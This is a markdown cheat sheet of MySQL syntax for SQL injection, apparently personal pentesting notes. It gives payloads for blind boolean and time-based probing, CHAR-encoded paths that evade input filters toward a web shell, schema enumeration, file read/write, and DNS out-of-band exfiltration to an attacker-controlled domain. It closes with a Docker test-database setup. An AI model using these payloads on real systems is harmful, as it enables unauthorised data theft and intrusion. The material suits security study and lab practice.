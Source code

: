 	# MySQL Database

## Comment Syntax

1. `#`
	* `#COMMENT HERE` 
2. `-- `
	* `-- COMMENT HERE`
	* Note the required whitespace
3. `/* */`
	* `/*COMMENT HERE*/` 

---

## Version Query Syntax

```sql
SELECT @@version
```

```sql
SELECT version()
```

---

## String Concatenation Syntax

```sql
SELECT CONCAT(username, ':', password) FROM users
```

* Takes a variable number of arguments
* Arguments can be column names from the target table or string literals

---

## Concatenate All Rows' Particular Column Value into a Single String

```sql
SELECT GROUP_CONCAT($COLUMN_NAME) FROM $TABLE_NAME
```

- This is a helpful alternative in SQL injection when you can only return a single row's column at a time
	- Instead of using `LIMIT` and multiple requests to return each row's value, you can use this to return all rows' value

---

## Cast an Integer into a Character

```sql
-- CHAR($INTEGER)
```

```sql
SELECT path FROM paths WHERE path = CONCAT(CHAR(47),'var',CHAR(47),'www',CHAR(47),'html',CHAR(47),'shell',CHAR(46),'php') -- /var/www/html/shell.php
```

* Especially helpful for bypassing tricky input restrictions on file paths (i.e., no `/`, `\`, and `.` allowed)


---

## Substring Syntax

```sql
SUBSTRING($STRING, $START_INDEX, $LENGTH)
```

```sql
SELECT COUNT(*) FROM users WHERE SUBSTRING(password,1,1) > 'm'
```
* Indices start at 1

---

## Conditional Syntax

```sql
SELECT IF($CONDITION, $VALUE_IF_TRUE, $VALUE_IF_FALSE)
```

```sql
SELECT IF(COUNT(*) = 1, 1, 0) FROM users WHERE username = 'admin' AND password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

Alternatively,

```sql
SELECT CASE WHEN ($CONDITION) THEN $VALUE_IF_TRUE ELSE $VALUE_IF_FALSE END
```

```sql
SELECT CASE WHEN (COUNT(*) = 1) THEN 1 ELSE 0 END FROM users WHERE username = 'admin' and password = 'password123' -- returns 1 if password equals 'password123', 0 otherwise
```

---

## Time delay syntax

[Reference](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Unconditionally wait for 10 seconds

```sql
SELECT sleep(10)
```

### Conditionally wait for 10 seconds

```sql
SELECT IF ($CONDITION$, sleep(10), 'a')
```

---

## DNS Lookup Syntax

```sql
LOAD_FILE('\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## DNS Lookup with Data Exfiltration Syntax

```sql
SELECT $COLUMNS_TO_EXFIL INTO OUTFILE '\\\\$YOUR_SUBDOMAIN.$YOUR_DOMAIN\\a'
```
* Only works on Windows
* Requires stacked queries
* Requires the `FILE` privilege & `@@GLOBAL.secure_file_priv` must be equal to `''` (blank). Read more [here](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv).

---

## Get Current Database

```sql
SELECT database();
```

---

## Database enumeration

```sql
SELECT schema_name FROM information_schema.schemata
```

---

## Table enumeration

[[database-enumeration#Querying database tables non-Oracle]]

---

## Table column enumeration

[[database-enumeration#Querying database tables' columns non-Oracle]]

---

## Enumerate a Database's Tables and their Correspoding Columns

```sql
SELECT GROUP_CONCAT(TABLE_NAME, ':', COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA = '$DATABASE'
```

- Databases can be enumerated with [[mysql#Database enumeration|this query]]

---

## Table & Column Enumeration for Entire Database (One Request)

```sql
SELECT GROUP_CONCAT(CONCAT('\n', table_name, ':', column_name)) FROM information.schema.columns WHERE table_schema = '$DATABASE_NAME';
```

---

## Show Current User's MySQL Privileges

```sql
SHOW GRANTS
```

---

## Read File

```sql
SELECT LOAD_FILE("$FILE_PATH")
```

---

## Write to File

```sql
SELECT "$CONTENT_TO_WRITE" INTO OUTFILE "$OUTFILE_PATH"
```

---

## Interact with test database

[Reference](https://hub.docker.com/r/genschsa/mysql-employees)

On a Linux machine with Docker installed, run the `mysql-employees` Docker container.
* Change `$PASSWORD`

```bash
docker run -d -it --rm \
  --name mysql-employees \
  -p 3306:3306 \
  -e MYSQL_ROOT_PASSWORD=blah \
  -v $PWD/data:/var/lib/mysql \
  genschsa/mysql-employees
```

Get a shell in the container.

```bash
docker exec -it $CONTAINER_ID /bin/bash
```

In the container, connect to the test MySQL database.

```bash
mysql -u root -p
```

Query away!